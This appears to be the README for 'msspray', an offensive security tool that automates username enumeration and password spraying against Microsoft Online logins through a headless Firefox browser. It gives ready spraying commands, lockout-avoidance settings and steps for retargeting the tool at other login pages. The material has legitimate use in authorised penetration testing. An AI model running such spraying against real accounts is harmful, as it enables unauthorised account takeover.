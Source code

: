 # **msspray**

> For educational, authorized and/or research purposes only.

See the related blog post: https://k3ramas.blogspot.com/2019/04/headless-browsers-for-password-spraying.html

This is a basic username enumeration and password spraying tool aimed at Microsoft Online authentication that renders in the DOM and requires the use of JavaScript to recognize page changes.

Currently, there is no concurrency built into the tool - it will run single-threaded.


## Setup

1. Install the Python dependencies

```bash
$ pip3 install -r requirements.txt
```

2. Install Firefox

```bash
# Linux
$ sudo apt install firefox-esr
```

3. Install Firefox's `geckodriver`

```bash
$ wget https://github.com/mozilla/geckodriver/releases/download/v0.32.0/geckodriver-v0.32.0-linux64.tar.gz
$ tar -xvf geckodriver-v0.32.0-linux64.tar.gz
$ export PATH=$PATH:$(pwd) # Add the current directory with the geckodriver to the PATH
```

> Ensure there are no firewall rules that block routing to localhost.
>
> Also, ensure that Firefox is up to date in order to set all of the required preferences.


## Usage

Perform username enumeration:<br>
`python3 msspray.py -e -t https://login.microsoftonline.com -u usernames.txt`

Perform password spray:<br>
`python3 msspray.py -s -t https://login.microsoftonline.com -u usernames.txt -p passwords.txt --count 2 --lockout 5`

```
usage: msspray.py [-h] (-e | -s) [-t TARGET]
                  -u USERNAME [-p PASSWORD]
                  [--proxy PROXY] [--wait WAIT]
                  [--count COUNT] [--lockout LOCKOUT]
                  [--sleep [-1, 0-120]] [--jitter [0-100]]
                  [--verbose] [--debug]

Microsoft DOM-Based Enumeration and Password Sprayer - v0.1.0

options:
  -h, --help            show this help message and exit

Actions:
  -e, --enumerate       Perform username enumeration

  -s, --spray           Perform password spraying

Primary Options:
  -t TARGET, --target TARGET
                        Authentication URL
                        [Default: https://login.microsoftonline.com/]

  -u USERNAME, --username USERNAME
                        Comma delimited list or file containing usernames

  -p PASSWORD, --password PASSWORD
                        Comma delimited list or file containing passwords

Web Configuration:
  --proxy PROXY         HTTP/S proxy (e.g. http://127.0.0.1:8080)

  --wait WAIT           Time to wait when looking for DOM elements (in seconds)
                        [Default: 3]

Password Spraying Configuration:
  --count COUNT         Number of password attempts per user before resetting the
                        lockout timer

  --lockout LOCKOUT     Lockout policy reset time (in minutes)

Scan Configuration:
  --sleep [-1, 0-120]   Throttle HTTP requests every `N` seconds. This can be randomized
                        by passing the value `-1` (between 1 sec and 2 mins).
                        [Default: 0]

  --jitter [0-100]      Jitter extends --sleep period by percentage given (0-100).
                        [Default: 0]

Misc. Configuration:
  --verbose             Verbose output

  --debug               Debug output
```


## Alternate Target Handling

While this tool by default targets Microsoft, functionality can be updated for different targets. The [ELEMENTS](msspray/utils/firefox.py#L26) data structure contains the XPATH elements of each input field, button, and error label during the authentication process. This process, if updated for a different target, expects the following authentiaction flow:

1. The first page upon browsing to the provided target renders a username input field and a "next" button
  - If the username is invalid, a "user error" label is added to the DOM
2. Once the "next" button is clicked, a second page renders the password input field and the "login" button
  - If the credentials are invalid, an "invalid credentials" label is added to the DOM

Each elements value (XPATH or CSS_SELECTOR) in the authentication flow can be identified by:

1. Right click the input field, button, or label and select `Inspect`
2. When the Inspector loads, right-click the highlighted HTML element and select:
  - `Copy -> XPath`
  - `Copy -> CSS Selector`

Below is an example, with descriptions, of the `ELEMENTS` data structure that is to be updated for alternate targets. If any values are exempt (e.g. "work"), set the value to:
- `//*[@id="IGNORE_EXEMPT_FIELD"]` if using type "XPATH"
- `.IGNORE_EXEMPT_FIELD` if using type "CSS_SELECTOR"

```python
# Current defaults set for Microsoft
ELEMENTS = {
    # Selenium selector type: XPATH, CSS_SELECTOR
    "type":      "XPATH",

    # Username input field XPATH value
    "username":  '//*[@id="i0116"]',

    # Password input field XPATH value
    "password":  '//*[@id="i0118"]',

    # Next button XPATH value
    "next":      '//*[@id="idSIButton9"]',

    # Login button XPATH value
    "login":     '//*[@id="idSIButton9"]',

    # Invalid user error label XPATH value
    "usererror": '//*[@id="usernameError"]',

    # Invalid credentials error label XPATH value
    "passerror": '//*[@id="passwordError"]',

    # Locked account error label XPATH value
    "locked":    '//*[@id="idTD_Error"]',

    # Microsoft's Work/Personal selection XPATH value
    "work":      '//*[@id="aadTile"]',
}
```